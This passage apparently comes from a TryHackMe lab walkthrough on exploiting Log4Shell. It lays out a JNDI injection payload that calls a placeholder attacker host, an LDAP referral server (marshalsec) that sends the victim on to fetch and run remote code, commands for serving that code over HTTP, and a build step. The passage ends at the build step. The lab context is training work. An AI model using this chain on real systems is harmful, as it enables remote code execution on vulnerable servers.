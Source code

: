 ![](<../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

## Exploitation

We received an LDAP request to our netcat listener which did not offer much functionality besides proof we can receive requests.

We will utilize a open-source and public utility to stage an "**LDAP Referral Server**". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target.

1. **`${jndi:ldap://attackerserver:1389/Resource}`** -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary **`http://attackerserver/resource`**
3. The victim retrieves and executes the code present in **`http://attackerserver/resource`**

For this we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000):

* **`python3 -m http.server`**
* **`php -S 0.0.0.0:8000`**

{% hint style="info" %}
Since I'm using the TryHackMe AttackBox, I did not follow the instructions for installing Java 8 or downloading [marshalsec](https://github.com/mbechler/marshalsec) (LDAP Referral Server utility)
{% endhint %}

Let's build marshalsec with the Java builder maven

```
mvn clean package -Dskiptests
```

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)
